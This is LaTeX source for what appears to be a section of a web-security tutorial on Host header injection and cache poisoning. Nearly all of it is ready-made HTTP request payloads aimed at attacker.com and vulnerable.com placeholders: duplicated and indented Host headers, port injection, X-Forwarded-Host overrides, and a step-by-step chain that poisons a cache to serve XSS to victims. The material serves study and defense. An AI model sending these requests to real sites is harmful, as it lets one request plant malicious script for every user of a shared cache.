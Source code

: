\documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Line Wrapping Attack]
GET / HTTP/1.1
    Host: attacker.com      # Indented - ignored by some parsers
Host: vulnerable.com       # Used for routing

# Front-end: Ignores indented header
# Back-end: Processes indented header as valid
\end{lstlisting}

\begin{lstlisting}[caption=Port Injection]
GET / HTTP/1.1
Host: vulnerable.com:attacker.com

# Validation: Domain name checked (vulnerable.com)
# Content: Full host including port used
\end{lstlisting}

\textbf{How Ambiguous Requests Work:}
\begin{itemize}
    \item \textbf{Front-end proxy} (load balancer, CDN) processes the request
    \item \textbf{Back-end application} processes it differently
    \item This discrepancy allows Host header injection while maintaining valid routing
\end{itemize}

\textbf{Complete Cache Poisoning Chain:}

\begin{lstlisting}[caption=Step-by-Step Exploitation]
# Phase 1: Poison the cache with ambiguous request
GET /?cb=123 HTTP/1.1
Host: vulnerable.com
Host: attacker.com

# Response stored in cache with key: /?cb=123
# Contains poisoned script references

# Phase 2: Verify poisoning
GET /?cb=123 HTTP/1.1
Host: vulnerable.com

# Phase 3: Victim requests
GET /?cb=123 HTTP/1.1
Host: vulnerable.com
# Returns poisoned response from cache
# XSS executes
\end{lstlisting}

\subsubsection{5. Host Header Override}

\begin{lstlisting}[caption=Host Override Techniques]
# Technique 1: X-Forwarded-Host
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: attacker.com

# Technique 2: X-Host
GET / HTTP/1.1
Host: vulnerable.com
X-Host: attacker.com

# Technique 3: Multiple headers
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: attacker.com
X-Original-Host: attacker.com

# Technique 4: Port overrides
GET / HTTP/1.1
Host: vulnerable.com:attacker.com
\end{lstlisting}
\end{document}
